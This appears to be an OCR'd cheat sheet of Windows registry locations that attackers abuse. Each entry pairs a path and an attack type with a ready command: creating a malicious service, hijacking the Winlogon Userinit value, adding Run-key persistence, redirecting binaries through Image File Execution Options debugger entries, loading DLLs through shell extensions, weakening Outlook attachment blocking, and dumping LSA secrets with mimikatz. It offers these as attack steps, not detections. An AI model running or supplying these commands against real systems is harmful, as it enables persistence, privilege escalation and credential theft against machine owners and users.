 ### Manipulating System Services
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Services`  
**Attacks:** Privilege Escalation, Service Manipulation  
**Codes:** `sc create EvilService binPath= "evil.exe"`

### Credential Theft at Login
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`  
**Attacks:** Credential Theft, Persistence  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon /v Userinit /t REG_SZ /d "evil.exe"`

### User-Level Persistence via Policies
**Registry Path:** `HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run`  
**Attacks:** User Persistence, Malware Execution  
**Codes:** `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run /v MalwareName /t REG_SZ /d "malwarepath.exe"`

### System-Level Persistence via Policies
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run`  
**Attacks:** System Persistence, Malware Execution  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run /v MalwareName /t REG_SZ /d "malwarepath.exe"`

### Binary Hijacking
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options`  
**Attacks:** Binary Hijacking, Debugger Redirection  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe /v Debugger /t REG_SZ /d "evilcalc.exe"`

### DLL Loading via Shell Extensions
**Registry Path:** `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellServiceObjectDelayLoad`  
**Attacks:** Persistence, DLL Loading  
**Codes:** `reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellServiceObjectDelayLoad /v EvilDLL /t REG_SZ /d "evildllpath.dll"`

### Bypassing Outlook Security
**Registry Path:** `HKCU\Software\Microsoft\Office\<version>\Outlook\Security`  
**Attacks:** Phishing, Malicious Attachment Execution  
**Codes:** `reg add HKCU\Software\Microsoft\Office\<version>\Outlook\Security /v Level1Remove /t REG_SZ /d ".exe"`

### Credential Dumping via LSA
**Registry Path:** `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`  
**Attacks:** Credential Theft, LSA Secrets Dumping  
**Codes:** `mimikatz "lsadump::lsa /patch"`

### User Activity via Typed URLs
**Registry Path:** `HKCU\Software\Microsoft\Internet Explorer\TypedURLs`  
**Attacks:** Gathering Browsing History  
**Codes:** `reg query HKCU\Software\Microsoft\Internet Explorer\TypedURLs`
